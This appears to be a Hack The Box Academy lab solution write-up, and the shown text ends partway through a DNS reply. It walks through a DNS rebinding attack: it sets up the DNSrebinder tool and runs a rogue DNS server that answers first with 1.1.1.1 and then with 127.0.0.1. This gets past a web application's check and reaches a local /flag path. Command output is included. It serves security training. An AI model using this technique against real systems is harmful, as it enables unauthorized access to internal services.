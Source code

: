 ```shell
┌─[eu-academy-1]─[10.10.14.148]─[htb-ac-413848@htb-gkiymvgowl]─[~]
└──╼ [★]$ git clone https://github.com/mogwailabs/DNSrebinder.git
cd DNSrebinder/
python3 -m venv DNSrebinder
source DNSrebinder/bin/activate
pip3 install -r requirements.txt

Cloning into 'DNSrebinder'...
remote: Enumerating objects: 37, done.
remote: Counting objects: 100% (37/37), done.
<SNIP>
```

Using `dnsrebinder.py`, students need to start a DNS server and make it resolve a domain name (`google.com` used here) to `1.1.1.1` for the first request and then to `127.0.0.1` for any subsequent ones:

Code: shell

```shell
sudo python3 dnsrebinder.py --domain google.com --ip 1.1.1.1 --rebind 127.0.0.1 --counter 1 --tcp --udp
```

```shell
(DNSrebinder) ┌─[eu-academy-1]─[10.10.14.148]─[htb-ac-413848@htb-gkiymvgowl]─[~/DNSrebinder]
└──╼ [★]$ sudo python3 dnsrebinder.py --domain google.com --ip 1.1.1.1 --rebind 127.0.0.1 --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2
```

With the rogue DNS server running, students need to visit the root webpage of the spawned target machine and "search" for a URL that uses the domain name supplied to `dnsrebinder.py` in addition to the `/flag` path:

![[HTB Solutions/CWEE/z. images/2c9c6bb3c12537ff526c4c63683dacb1_MD5.jpg]]

As explained in the module's section, because the web application resolves the domain twice, the first DNS `A` record will map `google.com` to `1.1.1.1`, while the second maps it to `127.0.0.1`; students can view the output of `dnsrebinder.py` to view the `A` records the fake DNS server replies with:

```shell
(DNSrebinder) ┌─[eu-academy-1]─[10.10.14.148]─[htb-ac-413848@htb-igdhdh9zci]─[~/DNSrebinder]
└──╼ [★]$ sudo python3 dnsrebinder.py --domain google.com --ip 1.1.1.1 --rebind 127.0.0.1 --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2
Got a request for google.com. Type: A
------------------------ Counter for host  google.com.   1
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51066
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;google.com.                    IN      A
;; ANSWER SECTION:
google.com.             0       IN      A       1.1.1.1
Got a request for google.com. Type: A
------------------------ Counter for host  google.com.   2
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 52047
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
```